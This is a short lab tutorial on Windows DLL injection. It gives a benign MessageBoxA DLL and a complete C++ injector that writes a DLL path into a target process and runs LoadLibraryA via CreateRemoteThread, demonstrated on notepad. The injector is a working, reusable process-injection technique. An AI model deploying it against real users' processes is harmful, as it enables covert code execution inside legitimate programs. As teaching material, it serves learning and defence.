

DLL injection is a classic technique that has been used for a long time and still remains relevant today. It involves, as the name suggests, injecting a DLL into a legitimate process and calling `LoadLibraryA` to make the process execute the code.

For this lab we'll use a simple MessageBoxA DLL:
```cpp
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,
                      DWORD  ul_reason_for_call,
                      LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        MessageBoxA(
            NULL,
            "Hello from DLL!",
            "My DLL",
            MB_OK | MB_ICONINFORMATION
        );
        break;

    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

The steps for performing a simple DLL injection are fairly straightforward.
- It starts by getting a handle to the target process via `OpenProcess`.
- We then allocate memory in the target process's virtual address space using `VirtualAllocEx`. Write the path to the DLL file to the address it returns using `WriteProcessMemory`.
- Set up the function pointer that a thread will execute.
- Create a thread to execute the function pointer.

The complete program is listed below.
```cpp
#include <windows.h>
#include <string>
#include <iostream>

DWORD DllInjection(const std::string& dllPath, HANDLE processHandle) {
    size_t pathSize = dllPath.size() + 1;
    void* remoteBuffer = VirtualAllocEx(processHandle, nullptr, pathSize, MEM_COMMIT, PAGE_READWRITE);
    if (remoteBuffer == nullptr) {
        return GetLastError();
    }

    SIZE_T bytesWritten;
    if (!WriteProcessMemory(processHandle, remoteBuffer, dllPath.c_str(), pathSize, &bytesWritten)) {
        VirtualFreeEx(processHandle, remoteBuffer, 0, MEM_RELEASE);
        return GetLastError();
    }

    PTHREAD_START_ROUTINE threadStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("kernel32"), "LoadLibraryA");
    if (threadStartRoutineAddress == nullptr) {
           VirtualFreeEx(processHandle, remoteBuffer, 0, MEM_RELEASE);
           return GetLastError();
    }

    HANDLE threadHandle = CreateRemoteThread(processHandle, nullptr, 0, threadStartRoutineAddress, remoteBuffer, 0, nullptr);
    if (threadHandle == nullptr) {
           VirtualFreeEx(processHandle, remoteBuffer, 0, MEM_RELEASE);
           return GetLastError();
    }

    WaitForSingleObject(threadHandle, INFINITE);

    CloseHandle(threadHandle);
    return ERROR_SUCCESS;
}

int main(int argc, char* argv[]) {
    if (argc < 3) {
        printf("usage: %s <pid> <full dll path>\n", argv[0]);
        return 1;
    }

    std::string dll = argv[2];
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)atoi(argv[1]));
    DWORD err = DllInjection(dll, processHandle);
}
```

Our DLL is injected into notepad  
  
View from Task Manager  

